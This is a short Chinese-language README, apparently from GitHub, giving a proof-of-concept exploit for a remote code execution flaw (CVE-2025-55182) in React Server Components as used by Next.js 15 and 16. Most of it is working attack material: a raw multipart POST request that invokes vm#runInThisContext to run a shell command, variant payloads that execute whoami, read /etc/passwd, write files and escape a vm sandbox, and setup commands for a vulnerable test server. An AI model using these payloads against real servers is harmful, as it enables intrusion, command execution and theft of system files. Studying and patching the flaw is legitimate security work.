

# React 19 Next.js 15/16 远程代码执行

## 受影响版本：

- react-server-dom-webpack: 19.0.0, 19.1.0, 19.1.1, 19.2.0
- Next.js: 15.x, 16.x (App Router)

## POC：

```t
POST /formaction HTTP/1.1
Host: localhost:3002
Content-Type: multipart/form-data; boundary=----Boundary
Content-Length: 297

------Boundary
Content-Disposition: form-data; name="$ACTION_REF_0"


------Boundary
Content-Disposition: form-data; name="$ACTION_0:0"

{"id":"vm#runInThisContext","bound":["global.process.mainModule.require(\"child_process\").execSync(\"id\").toString()"]}
------Boundary--

```


## 变种
```t
{ id: 'child_process#execSync', bound: ['whoami'] }
{ id: 'fs#readFileSync', bound: ['/etc/passwd'] }
{ id: 'fs#writeFileSync', bound: ['/tmp/pwned.txt', 'CVE-2025-55182'] }
{ 
  id: 'vm#runInThisContext',
  bound: ['process.mainModule.require("child_process").execSync("id").toString()']
}
{
  id: 'vm#runInNewContext', 
  bound: ['this.constructor.constructor("return process")().mainModule.require("child_process").execSync("whoami").toString()']
}
```

## 环境复现
参考链接：https://github.com/ejpir/CVE-2025-55182-poc/
```bash
npm install
node --conditions react-server --conditions webpack src/server.js
```
